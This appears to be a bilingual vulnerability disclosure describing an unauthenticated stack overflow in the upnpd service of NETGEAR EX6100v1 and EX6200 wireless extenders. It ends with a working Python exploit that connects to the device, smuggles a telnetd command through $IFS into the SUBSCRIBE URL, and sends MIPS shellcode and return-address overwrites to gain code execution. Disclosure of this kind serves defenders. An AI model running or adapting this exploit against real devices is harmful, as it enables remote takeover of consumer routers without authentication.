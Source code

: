 # NETGEAR EX series upnpd stack_overflow

#### Impact products 

​	EX6100v1 all version 

​	EX6200  latest firmware

​	maybe more

​	firmware LInk: http://support.netgear.cn

#### describ

​	 ex6100v1和ex6200无线扩展器（可能更多）的upnpd协议中存在堆栈溢出漏洞，这可能导致在没有身份验证的情况下执行任意代码 

​	Stack overflow vulnerability exists in the upnpd protocol of ex6100v1 and ex6200 wireless extenders(maybe more), which can lead to arbitrary code execution without authentication

#### Detail

​	 upnpd二进制文件的upnp_main函数中，0x1fff的数据大小被接受并存储在v81中。 

​	In the upnp_main function, the data size of 0x1fff is accepted and stored in v81.

<img src="./img/image-20211007164319530.png" alt="image-20211007164319530" style="zoom:50%;" />

​	 接下来，在下图中，调用函数v81变量作为第一个参数 	

​	Next, in the figure below, the function v81 variable is called as the first parameter

<img src="./img/image-20211007164612323.png" alt="image-20211007164612323" style="zoom:50%;" />

​	 在处理订阅和取消订阅请求时，您将使用前面的v81参数输入gena_http_method_check函数a1，并执行此函数 	  

​	When processing subscribe and unsubscribe requests, you will enter the gena_http_method_check function a1 with the previous v81 parameter, and follow up this function 

<img src="./img/image-20211007164656273.png" alt="image-20211007164656273" style="zoom:50%;" />

​	 此函数通过strcpy将输入复制到堆栈，数据大于缓冲区，导致堆栈溢出。无需身份验证即可执行任意代码 

​	This function copies the input to the stack through strcpy, and the data is larger than the buffer, resulting in stack overflow. Arbitrary code can be executed without authentication

<img src="./img/image-20211007164927729.png" alt="image-20211007164927729" style="zoom:50%;" />



<img src="./img/image-20211007165050190.png" alt="image-20211007165050190" style="zoom:50%;" />



#### TEXT

​	 由于通用upnpd服务是默认启动的，因此它非常有害，并可能导致执行任意代码。此exp可以打开ex6100的最新固件(http://support.netgear.cn/Upfilepath/EX6100-V1.0.2.28_1.1.138.chk)用于设备的Telnetd服务 

​	Because the general upnpd service is started by default, it is very harmful and can cause the execution of arbitrary code. This exp can open the latest firmware of ex6100（http://support.netgear.cn/Upfilepath/EX6100-V1.0.2.28_1.1.138.chk） Telnetd service for devices 

POC && EXP

```
from pwn import *
p=remote("192.168.0.110",5000)
request = "SUBSCRIBE /gena.telnetd${IFS}-p${IFS}23;?service=" + "1" + " HTTP/1.0\n"
request += "Host: " + "192.168.1.0:" + "80" + "\n"
request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
request += "NT: upnp:event\n"
request += "Timeout: Second-1800\n"
request += "Accept-Encoding: gzip, deflate\n"
#request = 	request.ljust(0x1000,"a")
print len(request)
request += request+"doud"
stg3_SC =''
stg3_SC += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
stg3_SC += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
stg3_SC += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
stg3_SC += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
stg3_SC += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
stg3_SC += "\xab\x0f\x02\x24\x0c\x09\x09\x01"
#payload+= "d"*0x18
request += request+stg3_SC
request = request.ljust(0x1f00,"a")
request += p32(0x7fff7030)
request = request.ljust(0x1f48-0x14,"a")
request += p32(0x422848)
#request += p32(0x422944)
#request += "a"*0x500
#request += p32(0x7fff7030)*8
p.send(request)
p.interactive()
```

